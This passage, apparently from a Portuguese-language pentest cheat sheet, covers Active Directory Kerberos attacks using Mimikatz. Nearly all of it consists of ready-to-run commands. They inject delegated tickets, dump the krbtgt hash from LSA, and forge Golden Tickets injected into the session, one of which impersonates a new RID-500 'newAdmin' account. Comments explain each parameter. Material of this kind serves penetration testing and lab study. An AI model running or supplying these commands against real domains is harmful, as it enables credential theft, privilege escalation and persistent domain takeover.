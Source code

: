 ```powershell
Invoke-Mimikatz -Command '"kerberos::ptt tickets_gerados.kirbi"'
```

E teremos acesso à máquina com o Constrained Delegation habilitado

#### Unconstrained Delegation

Mais informações de como esse ataque funciona você encontra no meu blog [Unconstrained](https://0x4rt3mis.github.io/activedirectory/2020/12/20/Active-Directory-Kerberos/)

Explorei ele aqui no [Pass-The-Ticket](#Pass-The-Ticket)

Não vou explicar mais aqui, veja no blog pra mais informações.

### Tickets

#### Golden Ticket

```powershell
# Extrair o hash do krbtgt
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject /name:krbtgt"'

# /user:Usuário
# /domain:dominio que estou (filho) 
# /sid:sid do FILHO 
# /krbtgt:hash do KRBTGT
# /sids:sid do PAI
# /ptt

# Comandos para injetar o ticket na seção
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:AB.DOMINIO.local /sid:<SID do DB.DOMINIO.local> /krbtgt:HASH_KRBTGT /sids:<SID do DOMINIO.local> /ptt"'

# AB.DOMINIO.local - Get-DomainSID
# DOMINIO.local - Get-DomainSID -Domain DOMINIO.local
```

Também podemos 'criar' um usuário novo, só que nesse caso o hash vai ser o rc4 (igual o ntlm)

```powershell
# Extrair o hash do krbtgt
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject /name:krbtgt"'

# /domain – o FQDN.
# /sid – o SID do dominio.
# /user – a conta que será impersonificada.
# /id – o RID da conta que será impersonificada. Vou usar 500, pq esse é o default do administrator.
# /ptt – vai injetar o ticket direto nessa seção
# /rc4 – o hash do krbtgt

# Injetamos o ticket na seção
Invoke-Mimikatz -Command '"kerberos::golden /domain:xxx.local /sid:S-1-5-21-3965405831... /rc4:c6d349.... /user:newAdmin /id:500 /ptt"'
```
